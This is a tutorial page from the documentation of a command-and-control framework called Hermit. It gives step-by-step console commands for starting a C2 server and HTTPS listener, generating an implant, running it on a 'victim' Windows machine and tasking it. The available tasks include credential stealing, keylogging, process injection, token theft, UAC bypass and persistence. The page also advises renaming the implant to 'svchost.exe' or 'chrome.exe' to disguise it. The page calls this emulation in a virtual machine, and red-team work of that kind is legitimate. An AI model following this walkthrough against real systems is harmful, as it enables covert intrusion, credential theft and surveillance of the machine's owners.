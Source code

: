 # Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

> IMPORTANT: It's heavily recommended to use **a virtual machine** for Windows victim machine because If we modify the registry etc., the system might not work properly.

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

In the server console, we can show usage with `help` or `help <command>`.

## 2. Start HTTPS Listener

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

This command sets a new listener URL and run it.  
The IP is set from our local interface by default. The port number is randomly generated.  
If we want to specify our own IP/port, add `--url` flag:

```sh title="Hermit C2 Server Console"
Hermit > listener new --url https://127.0.0.1:1234
```

To list all listeners available, run `listeners` command.

## 3. Generate Implant Payload

`payload gen` command generates a new payload such as **implant**, **loader**, **shellcode**.  
The Wizard will start, so follow the instructions to complete the settings.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_exe.png)

It will take some time for generation (about 3-10 minutes. It depends on your machine spec).
After that, the implant is saved under `$HOME/.hermit/server/listeners/https-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with our own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds (10~30 seconds by default), the agent checked in and listed on the C2 server.  
We can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get Result

In Agent Mode, we can send tasks and get results.  
To see what tasks are available, run `?`, `help` or `help <command>` command.  
Currently, the following tasks are available:

```txt title="Hermit C2 Server Console [Agent Mode]"
TASK:
  assembly        Load and execute .NET assembly.
  cat             Read contents of a file.
  cd              Change the working directory.
  cmd             Execute arbitrary system command.
  connect         Change listener URL to connect.
  cp              Copy a file.
  creds steal     Steal credentials from various resources on the target computer
  dll             Load DLL and inject modules into the specified process.
  download        Download a file.
  env ls          List environment variables.
  envs            alias for 'env ls'
  find            Find files.
  group ls        List local groups.
  groups          Alias for 'group ls'.
  history         Retrieve information from history files of applications
  ip              Print the network interface information on target computer
  jitter          Set jitter time (seconds) between requests from beacon
  keylog          Keylogging N seconds.
  kill            Terminate the current process.
  killdate        Change killdate (UTC) for the implant beacon.
  ls              List files in a directory.
  migrate         Migrate the implant into another process.
  mkdir           Create a new directory.
  mv              Move a file to a destination location.
  net             Get TCP connections.
  pe              Load and execute PE (Portable Executable) file.
  persist         Establish persistence for implant.
  procdump        Dump process memory to a specified output file.
  ps kill         Terminate a process.
  ps ls           List processes.
  pwd             Print the current working directory.
  reg query       Enumerate subkeys for the specified path.
  rm              Remove a file.
  rmdir           Remove a directory.
  rportfwd add    Add settings to reverse port forwarding.
  rportfwd ls     List settings for reverse port forwarding.
  rportfwd rm     Stop and remove listener for reverse port forwarding.
  runas           Execute a program as another user.
  screenshot      Take a screenshot on target computer.
  shellcode       Inject shellcode into the specified process.
  sleep           Set sleep time (seconds) between requests from beacon.
  token revert    Revert back to the original process token.
  token steal     Steal token from the specified process and impersonate process.
  uac             Bypass UAC and start another session.
  upload          Upload a file to the target computer.
  user ls         List users.
  users           Alias for 'user ls'.
  whoami          Print the current user information.
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send_whoami.png)

To see the tasks waiting for results, run the `tasks` command.  

After a few seconds, if the task is successful, we can see the task results with the `task result` or `loot show` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
# or
Hermit [agent-abcd] > loot show
```

Please try other tasks as well.

## 7. Stop Implant & Quit Agent Mode

After emulation, stop the implant with the `kill` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > kill
```

Then run `exit` command to quit the agent mode.

## 8. Delete Agent

If we want to delete the agent, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > agent delete 1
```

`1` is the agent ID that can be seen by `agents` command.

## 9. Stop/Delete Listener

Also, if we want to stop and delete the listener, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > listener stop 1
Hermit > listener delete 1
```

`1` is the listener ID that can be seen by `listeners` command.

## Attack Further...

If you'd like to escalate privilege, please try [the Tutorial: Privilege Escalation with Implant Beacon](./privilege-escalation-with-implant-beacon.md).